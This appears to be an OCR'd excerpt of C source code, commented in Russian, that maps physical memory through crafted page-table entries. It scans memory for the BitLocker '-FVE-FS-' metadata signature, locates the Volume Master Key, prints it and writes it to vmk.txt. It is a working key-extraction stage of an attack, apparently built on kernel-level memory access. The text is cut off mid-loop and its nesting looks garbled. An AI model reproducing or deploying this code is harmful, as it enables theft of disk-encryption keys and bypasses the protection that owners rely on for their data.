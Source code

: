 ```
                    printf("%c", (c >= 32 && c <= 126) ? c : '.');  // Только печатные символы
                }
            }
            printf("\n");
        }
    }

        for (unsigned long long l = 0; l < (CONFIG_PHYS_MEM / 0x200000); l++) {
        unsigned long long phys_base = l * 0x200000ull;

        for (unsigned short j = 0; j < 512; j++)
            pte_area[512 + j] = (phys_base + 0x1000ull * j) | 0x80000000000867;
        flush_tlb(_pmd_area, 0x400000);

    void* pmd_vmk_hdr_addr = memmem(pmd_data_area, 0x200000, "-FVE-FS-", 8);
        if (pmd_vmk_hdr_addr == NULL)
        continue;

    unsigned long long phys_vmk_hdr_addr = phys_base + (pmd_vmk_hdr_addr - pmd_data_area);

        printf("[+] found possible VMK base: %p -> %016llx\n", pmd_vmk_hdr_addr, phys_vmk_hdr_addr);
        hexDump("VMK Candidate", pmd_vmk_hdr_addr, 0x10*40, 0x10);
        uint32_t version = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4);
        uint32_t start = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4);
        uint32_t end = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4+4);
        
        if (version != 1) {
            printf("[+] VERSION MISMATCH! %d\n", version);
            continue;
        }
        if (end <= start) {
            printf("[+] NOT ENOUGH SIZE! %x, %x\n", start, end);
            continue;
        }

        void* pmd_vmk_addr = memmem(pmd_vmk_hdr_addr, end, "\x03\x20\x01\x00", 4);
        if (pmd_vmk_hdr_addr == NULL) {
            printf("[+] VMK-needle not found!\n");
            continue;
        }

        char* vmk = pmd_vmk_addr + 4;
        printf("[+] found VMK at: %p \n", vmk);

        // Теперь выводим VMK
        printf("VMK = ");
        for (int i = 0; i < 32; i++) {
            printf("%02x ", (unsigned char)vmk[i]);
        }
        printf("\n");

        // Открываем файл для записи в формате txt
        FILE* file = fopen("vmk.txt", "w");
        if (!file) {
            perror("[ERROR] Failed to open vmk.txt for writing");
            continue;
        }

        // Записываем VMK как строку шестнадцатеричных чисел
        for (int i = 0; i < 32; i++) {
            fprintf(file, "%02x", (unsigned char)vmk[i]);
        }
```